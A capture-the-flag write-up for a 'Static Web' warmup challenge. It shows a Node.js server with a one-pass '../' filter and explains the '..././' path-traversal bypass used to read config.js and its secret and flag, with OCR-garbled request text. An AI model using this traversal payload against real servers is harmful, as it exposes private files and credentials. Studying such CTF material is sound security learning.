 # Static Web
> "Static" web for your hacking warmup.

## About the Challenge
We only got 1 file called `index.js` and here is the content of the file

```javascript
const http = require('http');
const fs = require('fs');
const path = require('path');
const url = require('url');

const config = require('./config.js')

const server = http.createServer((req, res) => {
    if (req.url.startsWith('/static/')) {
        const urlPath = req.url.replace(/\.\.\//g, '')
        const filePath = path.join(__dirname, urlPath);
        fs.readFile(filePath, (err, data) => {
            if (err) {
                res.writeHead(404);
                res.end("Error: File not found");
            } else {
                res.writeHead(200);
                res.end(data);
            }
        });
    } else if (req.url.startsWith('/admin/')) {
        const parsedUrl = url.parse(req.url, true); 
        const queryObject = parsedUrl.query;
        if (queryObject.secret == config.secret) {
            res.writeHead(200);
            res.end(config.flag);
        } else {
            res.writeHead(403);
            res.end('Nope');
        }
    } else if (req.url == '/') {
        fs.readFile('index.html', (err, data) => {
            if (err) {
                res.writeHead(500);
                res.end("Error");
            } else {
                res.writeHead(200);
                res.end(data);
            }
        });
    } else {
        res.writeHead(404);
        res.end("404: Resource not found");
    }
});

server.listen(3000, () => {
    console.log("Server running at http://localhost:3000/");
});
```

The website was vulnerable to path traversal in `/static` endpoint

## How to Solve?
Because there's a filter where we can't input `../`, we need to input `..././` to bypass the filter and then read `config.js` file to obtain the flag


[Image extracted text: Send
Cancel
7
Request
Response
Pretty
Raw
Hex
0 In
=
Pretty
Raw
Hex
Render
GET
Istatich./ /config.js
HTTP/1.1
HTTP/1.1
200
OK
2
Host:
static-web. ctf.cyberjawara. id
2
Server:
nginx/1.24.0
(Ubuntu)
3
3
Date
Sun,
03
Dec
2023
12:25:29
GMT
Connection:
keep-alive
5 Content-Length:
129
6
const
secret
WWijli23ejasdsdjvno2rnj123123 '
8
const
'CJ2023{1st_
wa
rmup_and_mlc_ch3ck}
10
module.exports
{
secret,
flag
flag]


```
CJ2023{1st_warmup_and_m1c_ch3ck}
```